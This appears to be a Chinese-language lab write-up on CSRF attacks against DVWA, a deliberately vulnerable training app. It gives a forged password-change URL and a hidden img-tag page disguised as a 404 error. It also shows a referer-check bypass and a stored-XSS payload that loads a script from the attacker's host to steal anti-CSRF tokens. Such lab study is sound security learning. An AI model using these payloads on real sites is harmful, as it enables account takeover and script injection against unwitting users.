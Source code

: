 ## dvwa 学习 csrf

### 参考资料

[DVWA-1.9全级别教程之CSRF](https://www.freebuf.com/articles/web/118352.html)

### csrf 简介

利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账 、改密等）。

CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。

### 环境

dvwa 服务器 192.168.255.151:8081

攻击者vps  192.168.1.101

### 攻击步骤

#### 1.编写 payload

```http://192.168.255.151:8081/dvwa-master/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#```

受害者点击链接之后页面会跳转

需要注意，**CSRF最关键的是利用受害者的cookie向服务器发送伪造请求，所以如果受害者之前用Chrome浏览器登录的这个系统，而用搜狗浏览器点击这个链接，攻击是不会触发的，因为搜狗浏览器并不能利用Chrome浏览器的cookie，所以会自动跳转到登录界面**

可以使用短链接来隐藏URL（点击短链接，会自动跳转到真实网站）：
如 [百度短链接](https://dwz.cn)

实际攻击场景下只要目标服务器的域名不是ip，是可以生成相应短链接的。

#### 2.构造攻击页面

a) 在公网上传一个攻击页面，诱骗受害者去访问

用隐藏图片的src属性来发起恶意请求

下面是html代码

```

	<img src="http://192.168.255.151:8081/dvwa-master/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>
	
	<h1>404<h1>
	
	<h2>file not found.<h2>

```

当受害者访问test.html时，会误认为是自己点击的是一个失效的url，但实际上已经遭受了CSRF攻击，密码已经被修改为了hack



b) 服务端验证了 host与 referer，使referer必须包含host

应对：构造文件名为 服务器名

可以将攻击页面命名为192.168.255.151.html ，页面放在攻击者vps上。

c) High级别的代码加入了Anti-CSRF token机制，用户每次访问改密页面时，服务器会返回一个随机的token，向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。


由于跨域是不能实现的，所以我们要将攻击代码注入到目标服务器192.168.255.151中，才有可能完成攻击

```ALTER TABLE guestbook MODIFY name VARCHAR(190);```


	<img src=# onerror="var b= document.createElement('scr&#x69;pt');
	b.setAttribute('src','http://192.168.1.101:808/g.js');
	document.getElementsByTagName('head')[0].appendChild(b);">

其中，steal.php在 ```https://github.com/leezp/note/blob/master/xss/dvwa-xss/steal.php```

这一步操作和high级别存储型xss一样，如图，获取到token。
![](token.PNG)


可见csrf要和xss结合使用才能发挥最大效果。  但实际是否会存在一个时间差，获取到token了，如何监控？如何即时诱导用户是以后该思考的问题
